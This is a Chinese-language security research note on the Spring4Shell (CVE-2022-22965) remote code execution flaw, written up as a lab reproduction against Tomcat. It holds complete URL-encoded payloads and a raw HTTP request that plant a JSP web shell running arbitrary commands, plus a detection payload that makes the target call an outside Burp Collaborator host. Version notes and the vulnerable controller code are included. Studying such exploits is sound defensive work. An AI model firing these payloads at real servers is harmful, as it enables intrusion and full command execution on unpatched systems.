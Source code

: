 参考：
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring 全家桶各类 RCE 漏洞浅析](https://paper.seebug.org/1422/#_3)
- [spring actuator restart logging.config rce](https://landgrey.me/blog/21/)
- https://github.com/LandGrey/SpringBootVulExploit
- [Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)
- [CVE-2021-22060: Additional Log Injection in Spring Framework (follow-up to CVE-2021-22096)](https://tanzu.vmware.com/security/cve-2021-22060)
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-22965.yaml


## Spring RCE
影响范围：
-  [2.5,2.5.6.SEC02)

### 无损检测
```
?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx
```
通过设置content，实现发起http请求的目的。

- https://xeldax.top/article/spring4shell_study

### FAQ

#### 为啥只能JDK9
> JDK1.8下测试，class bean下没有module bean，导致后续无法利用，如果是class.classLoader则会被黑名单拦截。

#### 为啥springboot不行
> JDK9 springboot下的，和springMVC的classloader不一样，是AppClassLoader，没有getResources()。springMVC是ParallelWebappClassLoader

## PoC
- https://github.com/craig/SpringCore0day/blob/main/exp.py
- https://github.com/lunasec-io/Spring4Shell-POC/blob/master/exploit.py


```
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

准备复现，
刚从tomcat官网下了个tomcat-8.5.78: https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.78/bin/apache-tomcat-8.5.78-windows-x64.zip

结果失败了，
![image](https://user-images.githubusercontent.com/30398606/161372147-431252a3-0a8e-472d-8ef9-1212d0781f1a.png)

```
Invalid property 'class.module.classLoader.resources' of bean class [java.lang.Module]: Could not instantiate property type [org.apache.catalina.WebResourceRoot] to auto-grow nested property path; nested exception is org.springframework.beans.BeanInstantiationException: Failed to instantiate [org.apache.catalina.WebResourceRoot]: Specified class is an interface
```

很快啊，原来是：
> Effectively disable the WebappClassLoaderBase.getResources() method as it is not used and if something accidently exposes the class loader this method can be used to gain access to Tomcat internals.

- https://tomcat.apache.org/tomcat-8.5-doc/changelog.html

所以目前的payload对于tomcat作为web容器的利用方式下，影响范围是：tomcat < 8.5.78

那就下载8.5.77:
- https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77-windows-x64.zip

tomcat换了之后依然没有成功。
![image](https://user-images.githubusercontent.com/30398606/161372361-0c85d1ca-1a4a-46b1-862a-7c7c19156635.png)
可能因为我是直接在windows上双击startup.bat导致日志直接输出到控制台，而没有机会写入到文件？
原来是使用这个：https://github.com/craig/SpringCore0day/blob/main/exp.py
导致有个引号的bug吧。
![image](https://user-images.githubusercontent.com/30398606/161375232-2b243cef-2e90-415a-9320-b8f894b3ffef.png)


使用这个成功了：
https://github.com/lunasec-io/Spring4Shell-POC
```
POST /java-sec-code-1.0.0/login3 HTTP/1.1
Host: 192.168.183.129:8088
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 698

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

![image](https://user-images.githubusercontent.com/30398606/161375660-ac8e4630-18e8-4046-ae9c-338b7a2110a8.png)


对应代码：
```java
    @RequestMapping("/login2")
    public void login2(@RequestBody User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }


    @RequestMapping("/login3")
    public void login3(User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }
```
其中login2这个endpoint要求请求的Content-Type是json类型。

### 无损检测

![image](https://user-images.githubusercontent.com/30398606/169263864-c581fd76-2fc5-453e-a721-c971b8250cbd.png)
```
/java-sec-code-1.0.0/login3?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx&username=test
```


### Ref
- [CVE-2010-1622: Spring Framework execution of arbitrary code](https://seclists.org/fulldisclosure/2010/Jun/456)
- [Spring Framework - Arbitrary code Execution](https://www.exploit-db.com/exploits/13918)
- [Spring Core RCE 0day｜文末报告附件](https://mp.weixin.qq.com/s/P-NEJzUUjIyemkSe_RbicQ)
- https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529
